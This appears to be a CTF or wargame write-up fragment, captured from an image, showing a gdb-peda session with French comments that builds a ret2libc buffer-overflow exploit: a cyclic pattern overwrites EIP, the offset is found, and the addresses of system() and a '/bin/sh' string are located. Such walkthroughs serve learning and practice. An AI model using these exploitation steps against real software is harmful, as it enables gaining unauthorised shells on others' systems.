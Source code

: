 ```shell
    Give me some shellcode, k
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

    Program received signal SIGSEGV, Segmentation fault.
    [Switching to process 1735]
    [----------------------------------registers-----------------------------------]
    [...]
    EIP: 0x71414154 ('TAAq')
    [...]
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x71414154
    [------------------------------------stack-------------------------------------]
    [...]
    [------------------------------------------------------------------------------]
    Stopped reason: SIGSEGV
    0x71414154 in ?? ()

  # On search l'offset
  gdb-peda$ pattern search
    Registers contain pattern buffer:
    # offset
    [...]
    EIP+0 found at offset: 156
    [...]

  # On prend l'addresse de system
  gdb-peda$ p system
    $1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
  
  # On ne la trouve pas, on n'a qu'a la mettre dans l'environnement
  gdb-peda$ set environment SHELL_STRING=/bin/sh
  gdb-peda$ x/50s *((char **) environ)
    No symbol table is loaded.  Use the "file" command.

  # On ne peux pas print l'environ tant que le programme n'est pas lancé puisque la symbol table n'est pas encore load
  gdb-peda$ b fork
    Breakpoint 1 at 0x8048550
  gdb-peda$ run
    [...]
  gdb-peda$ x/50s *((char **) environ)
    [...]
    0xffffdf72:	 "SHELL_STRING=/bin/sh"
    [...]

  # On cherche l'addresse d'une string "/bin/sh" pendant le run
  gdb-peda$ find /bin/sh
    Searching for '/bin/sh' in: None ranges
    Found 2 results, display max 2 items:
      libc : 0xf7f897ec ("/bin/sh")
    [stack] : 0xffffdf7f ("/bin/sh")
```

